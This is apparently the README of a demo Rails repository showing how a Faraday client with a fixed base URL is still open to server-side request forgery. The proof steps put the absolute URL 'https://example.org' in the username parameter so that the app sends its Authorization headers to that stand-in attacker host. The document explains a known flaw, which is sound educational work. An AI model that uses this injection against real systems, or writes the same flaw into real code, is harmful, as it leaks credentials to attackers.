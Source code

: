 # README

This is a demo repository to show an SSRF vulnerability in a Rails app.

Specifically, this app uses Faraday as an http client. And it creates a connection object with a safe base url.

However, it is still vulnerable to SSRF as providing an absolute path will override the base url.

Here is the vulnerable code:
https://github.com/Cohen-Carlisle/demo-ssrf-fix/blob/d58582849914ce7fa095abb9de88280360205dc9/app/controllers/ssrf_controller.rb#L3-L5

## Proof of SSRF vulnerability:
* Start a server with `bundle exec rails server`.
* Open a browser and navigate to http://localhost:3000?username=Cohen-Carlisle.
* Observe that the app made a `GET` to `https://api.github.com/users/Cohen-Carlisle` and got a response.
* Change the `username` to `https://example.org` (http://localhost:3000?username=https://example.org).
* Observe that the app made a `GET` to `https://example.org` and included Authorization headers.
* Oops! You just send your credentials to an attacker.

